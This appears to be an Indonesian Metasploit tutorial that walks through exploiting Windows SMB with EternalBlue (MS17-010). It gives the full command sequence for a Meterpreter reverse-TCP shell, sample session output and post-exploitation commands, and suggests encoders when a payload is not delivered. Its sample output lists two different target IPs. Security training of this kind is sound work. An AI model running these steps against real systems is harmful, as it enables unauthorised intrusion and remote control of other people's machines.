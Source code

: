 # Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:

- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:

1. Pilih dan muat modul exploit
2. Tentukan target (`RHOST`, `RPORT`)
3. Pilih payload
4. Konfigurasi payload (`LHOST`, `LPORT`, `dll`)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole:

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai:

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3 - Gunakan Exploit:

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi:

```
show options
```

### Langkah 5 - Setting Target dan Payload:

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit:

```
exploit
```

Kalu berhasil output-nya akan sepertin ini:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting `RHOST`/`LHOST` |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:

1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
